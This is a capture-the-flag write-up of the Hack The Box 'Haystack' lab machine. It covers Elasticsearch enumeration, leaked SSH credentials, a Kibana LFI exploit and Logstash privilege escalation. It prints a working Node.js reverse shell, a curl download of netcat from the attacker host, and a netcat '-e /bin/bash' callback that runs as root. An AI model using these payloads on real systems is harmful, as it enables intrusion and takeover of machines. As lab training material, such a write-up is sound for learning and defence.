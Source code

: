 ```yaml
---
layout: post
title: HTB - Haystack Writeup
date: 2019-11-07
image: '/images/posts/htb/haystack/haystack.jpg'
categories: ["writeups"]
tags: ["writeups", "haystack", "htb"]
---
```


* Box: Haystack
  - Difficulty: Easy
  - Points: 20
  - Release: 29 Jun 2019
  - IP: 10.10.10.115


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA haystack.nmap 10.10.10.115`

<img src="/images/posts/htb/haystack/haystack1.jpg">

The port scan shows ports 22, 80, 9200 are open.
Just from the scan we can identify that port 80 has **text/html** as its context-type whereas port 9200 has **application/json**. This can point towards some kind of API running as API's usually return with **json**.

Loading up the website we see:

<img src="/images/posts/htb/haystack/haystack2.jpg">

In the meantime, we will run a gobuster scan to find any more directories:

#### 2. Gobuster Scanning

```
gobuster dir -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -k
```

The scan doesn't find anything interesting.

Next I move to the image in the webpage. I run some basic steganography tools but nothing comes up. That is until I run **strings** on the image and search for a base64 string.

<img src="/images/posts/htb/haystack/haystack3.jpg">

We spot the line of code that looks like base64 so let's throw that into a decoder and see the output.

We get the line ``"la aguja en el pajar es "clave"`` and when we enter that into google translate we get ``the needle in the haystack is "key"``

<img src="/images/posts/htb/haystack/haystack4.jpg">

<img src="/images/posts/htb/haystack/haystack5.jpg">

Next we'll move over to port 9200 which is Elasticsearch.

Visiting the webpage we can see the source code tells us the version is **6.4.2**.

<img src="/images/posts/htb/haystack/haystack6.jpg">

After a quick search of exploits for this version we see the following tool used to dump the elasticsearch database.

https://github.com/taskrabbit/elasticsearch-dump

We can dump indices by using the below command:

``curl http://10.10.10.115:9200/_cat/indices?v -s``

<img src="/images/posts/htb/haystack/haystack7.jpg">

We can see 2 indices named **quotes** and **bank** so let's use the elasticdump tool and investigate further.

Based on the below output we generate a dump and we can analyze it by running the **cat** command and using **grep** to find particular keywords.

<img src="/images/posts/htb/haystack/haystack8.jpg">

I start with the word **haystack** and we get the output "There's a needle in this haystack, you have to search for it" which leads us to believe this is the correct step and to investigate deeper.

The last words of the quotes is a base64 string. Again, let's decode it and see the output:
They look to be credentials:

```
User: security
Pass: spanish.is.key
```

We can use these credentials to SSH in and get the user flag which is located at **/home/security/user.txt**

<img src="/images/posts/htb/haystack/haystack9.jpg">

### Privilege Escalation

Now that we know we are working on an **ELK** stack we can look at the running processes to see **kibana** and **logstash** are running.

Since kibana is run internally, we can port forward it with the below command:

``ssh security@10.10.10.115 -L 5601:127.0.0.1:5601``

<img src="/images/posts/htb/haystack/haystack10.jpg">

We load up the browser and see the Kibana version is **6.4.2**. A quick google search comes up with the following LFI exploit:

We can that it’s running kibana 6.4.2 . A quick google search gets us to [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

We can simply make a reverse shell using this JavaScript shell from: https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

I'm going to go ahead and save that in the /tmp folder on the kibana server.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.31", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

We then want to navigate to the below in the browser. We should see the listener get a connection back as the user **kibana**

``http://127.0.0.1:9000/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../tmp/shell``

Then you can run ``python -c 'import pty;pty.spawn("/bin/bash")'`` to upgrade to a Python shell.


After running LinEnum.sh we see **logstash** mentioned a few times. Since this box deals with ELK stack we can take a look into **Logstash** to see if there is anything of interest.

In **/etc/logstash**, we find a directory called **conf.d** which holds some key Logstash config files.

The three config files do the following:

I read into Logstash and how it uses these three configuration files.

- input.conf determines the conditions of the input file that Logstash will act on.
- filter.conf defines a regex that matches the contents of the input file.
- output.conf determines what actions will be taken on the input file

We can create a reverse shell payload in the target directory from input.conf that matches the regex in filter.conf.
Logstash should attempt to execute it on its own.

First, verify I have write access to the path defined in input.conf.

```
bash-4.2$ ls -alt /opt/
total 0
drwxr-x---.  2 kibana kibana  28 oct  6 18:55 kibana
drwxr-xr-x.  3 root   root    20 jun 18 21:20 .
dr-xr-xr-x. 17 root   root   224 nov 28  2018 ..
```

This box doesn't have ``nc`` installed but we can simply run the below commands to download it.
```
bash-4.2$ cd /tmp
bash-4.2$ curl -O 10.10.14.31:3333/nc
bash-4.2$ chmod +x nc
```

Now that we have netcat on the machine, we have to make sure our file content matches the regex in filter.conf.

<img src="/images/posts/htb/haystack/haystack11.jpg">

I noticed the “grok” in filter.conf. The regex is run through a Grok processor, so we can use a tool like this Grok debugger to ensure that our file contents will match.

I set up a nc listener on my attack box using the following command:
``nc -nlvp 2222``

Then create the input file called ``logstash_pwned`` and it will be executed by root.sh:
```
echo “Ejecutar comando : /tmp/nc -e /bin/bash 10.10.14.31 2222” > /opt/kibana/logstash_test
```
Wait a minute and we get a connection back:

```
nc -nlvp 2222
listening on [any] 2222 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.115] 44338
whoami
root
```
The root flag is located:
**cat /root/root.txt**

User flag is:
**/home/security/user.txt**
